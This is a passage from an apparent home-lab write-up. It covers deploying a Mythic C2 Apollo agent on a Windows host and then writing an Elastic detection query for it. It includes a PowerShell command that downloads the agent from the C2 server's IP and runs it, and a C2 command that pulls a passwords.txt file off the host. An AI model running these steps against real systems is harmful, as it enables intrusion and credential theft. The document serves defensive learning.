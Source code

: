 ```bash
Invoke-WebRequest -Uri http://[mythic server's IP]:9999/apollo.exe -OutFile "C:\Users\Public\Downloads\apollo.exe"
```
![File Downloaded](https://github.com/user-attachments/assets/99fd65cb-de26-4683-bc74-134078c54027)

I then executed the **Apollo** agent with:

```bash
.\apollo.exe
```

Immediately, the callback appeared in my **Mythic Agent Dashboard**:
![Callback Success](https://github.com/user-attachments/assets/e1018584-d0cd-4907-be4c-f0e18647136e)

To test the connection, I ran some commands (e.g., `whoami`, `ifconfig`) directly from the **Mythic Agent** interface, and the results were returned successfully:
![Command Results](https://github.com/user-attachments/assets/7fe560e0-b6c7-445f-ac45-414180f956ad)

Finally, I attempted to download the `passwords.txt` file from earlier using this command:

```bash
download C:\Users\Administrator\Documents\passwords.txt
```

Once the command completed, I navigated to the **Files** section in Mythic and successfully viewed the contents of `passwords.txt`:
![Passwords File Contents](https://github.com/user-attachments/assets/dc22e6c2-6d73-49ce-a5f2-173523d32dbe)

### **Day 22: Creating Mythic C2 Alert**

Today, I set up an alert in Elastic to monitor for the **Apollo** agent, which is part of my **Mythic C2** infrastructure.

#### **Step 1: Searching for `apolo.exe`**
I began by searching for the Mythic executable `apolo.exe` in Elastic. This was the file name of the agent I had deployed. To narrow down the results, I added the filter `event.code:1`, which logs process creation events and captures MD5 hashes of executables. This can help detect malicious files. 

Once I found the relevant event, I clicked on it and copied the associated hash:
![Event Hash](https://github.com/user-attachments/assets/d5ed3d55-951c-4b9b-a25f-a6efa5f95b31)

#### **Step 2: Checking the Hash with VirusTotal**
Next, I used **VirusTotal** to analyze the SHA256 hash:
```bash
SHA256=5FFAF58B7C811C6C66EEE07164B1227E1AC108BB611EB01509FEA333C538FF76
```
Since this was a newly generated Mythic agent, there were no existing matches in VirusTotal.

#### **Step 3: Creating a Query for Detection**
I created a query in Elastic to detect when a process is created (`event.code:1`) and show the **SHA256** hash of the Mythic agent:
```bash
event.code: "1" AND (winlog.event_data.Hashes: *5FFAF58B7C811C6C66EEE07164B1227E1AC108BB611EB01509FEA333C538FF76* OR winlog.event_data.OriginalFileName : "Apollo.exe")
```

